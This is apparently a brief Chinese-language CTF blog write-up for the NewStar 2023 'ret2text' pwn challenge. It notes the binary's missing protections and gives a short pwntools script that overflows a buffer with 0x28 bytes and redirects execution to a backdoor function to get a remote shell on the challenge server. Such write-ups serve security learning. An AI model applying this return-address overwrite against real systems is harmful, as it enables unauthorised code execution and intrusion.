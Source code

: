 ```yaml
---
title: newstar2023 week1 - ret2text
date: 2023/9/25 12:00:00
tags:
    - noob
excerpt: 利用ret2text漏洞调用backdoor函数打开shell。
---
```


## 文件分析

下载`ret2text`, NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

`backdoor`函数直接打开sh了，打就完了

## EXPLOIT

```python
from pwn import *
sh = remote("node4.buuoj.cn", 29533)
sh.sendline(b'0'*0x28 + p64(0x004011fb)) # addr of backdoor
sh.interactive()
```

Done.
